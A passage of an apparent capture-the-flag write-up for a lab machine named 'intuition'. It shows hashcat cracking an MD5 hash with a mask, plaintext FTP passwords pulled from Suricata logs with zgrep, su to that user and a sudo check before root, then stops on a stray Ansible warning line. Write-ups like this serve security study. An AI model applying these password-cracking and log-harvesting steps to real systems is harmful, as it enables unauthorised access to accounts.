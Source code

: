 ```c

```

## Hashcat with a mask
Using hashcat with the md5 hash and a mask for the remainder of the letters I was able to crack the hash
```shell
─$ hashcat -m 0 -a 3 md5_hash.txt UHI75GHI?u?u?u?u

0feda17076d793c2ef2870d7427ad4ed:UHI75GHINKOP             
                                                          
Session..........: hashcat
Status...........: Cracked

```

# Lopez
Just looking around the file system I found something interesting in the var/log folder and I was able to find some creds
```shell
zgrep -i lopez /var/log/suricata/*.gz
/var/log/suricata/eve.json.7.gz:{"timestamp":"2023-09-28T17:43:36.099184+0000","flow_id":1988487100549589,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":37522,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":1,"community_id":"1:SLaZvboBWDjwD/SXu/SOOcdHzV8=","ftp":{"command":"USER","command_data":"lopez","completion_code":["331"],"reply":["Username ok, send password."],"reply_received":"yes"}}
/var/log/suricata/eve.json.7.gz:{"timestamp":"2023-09-28T17:43:52.999165+0000","flow_id":1988487100549589,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":37522,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":2,"community_id":"1:SLaZvboBWDjwD/SXu/SOOcdHzV8=","ftp":{"command":"PASS","command_data":"Lopezzz1992%123","completion_code":["530"],"reply":["Authentication failed."],"reply_received":"yes"}}
/var/log/suricata/eve.json.7.gz:{"timestamp":"2023-09-28T17:44:32.133372+0000","flow_id":1218304978677234,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":45760,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":1,"community_id":"1:hzLyTSoEJFiGcXoVyvk2lbJlaF0=","ftp":{"command":"USER","command_data":"lopez","completion_code":["331"],"reply":["Username ok, send password."],"reply_received":"yes"}}
/var/log/suricata/eve.json.7.gz:{"timestamp":"2023-09-28T17:44:48.188361+0000","flow_id":1218304978677234,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":45760,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":2,"community_id":"1:hzLyTSoEJFiGcXoVyvk2lbJlaF0=","ftp":{"command":"PASS","command_data":"Lopezz1992%123","completion_code":["230"],"reply":["Login successful."],"reply_received":"yes"}}

```

## Access
```shell
dev_acc@intuition:~$ su lopez
Password: 
lopez@intuition:/home/dev_acc$ 

```
# Root
To get root you first check the sudo privs
```shell
sudo -l
User lopez may run the following commands on intuition:
    (ALL : ALL) /opt/runner2/runner2

```


[WARNING]: - file.tar was NOT installed successfully: Unknown error when attempting to call Galaxy at 'https://galaxy.ansible.com/api/':